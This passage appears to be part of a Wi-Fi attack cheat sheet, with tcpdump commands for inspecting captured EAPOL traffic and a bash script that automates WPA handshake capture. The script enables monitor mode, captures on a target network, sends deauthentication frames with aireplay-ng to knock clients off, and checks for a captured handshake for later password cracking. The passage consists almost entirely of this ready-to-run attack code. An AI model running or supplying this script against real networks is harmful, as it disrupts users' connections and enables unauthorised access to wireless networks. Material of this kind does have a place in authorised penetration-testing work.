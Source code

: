 ### Packet Analysis
```bash
# View capture details
tcpdump -r capture.cap

# Filter by BSSID
tcpdump -r capture.cap ether host 00:11:22:33:44:55

# View only EAPOL packets
tcpdump -r capture.cap -e 'ether proto 0x888e'
```

## Automation Scripts

### Automated Handshake Capture
```bash
#!/bin/bash
# Automated WPA handshake capture

INTERFACE="wlan0mon"
BSSID="00:11:22:33:44:55"
CHANNEL="6"
OUTPUT="handshake_capture"

# Start monitor mode
sudo airmon-ng start wlan0

# Start capture
sudo airodump-ng -w $OUTPUT -c $CHANNEL --bssid $BSSID $INTERFACE &
AIRODUMP_PID=$!

# Wait 10 seconds
sleep 10

# Send deauth packets
sudo aireplay-ng -0 5 -a $BSSID $INTERFACE

# Wait for handshake
sleep 30

# Kill airodump
kill $AIRODUMP_PID

# Check for handshake
if aircrack-ng $OUTPUT-01.cap | grep -q "Handshake"; then
    echo "Handshake captured!"
else
    echo "Handshake not captured"
fi
```
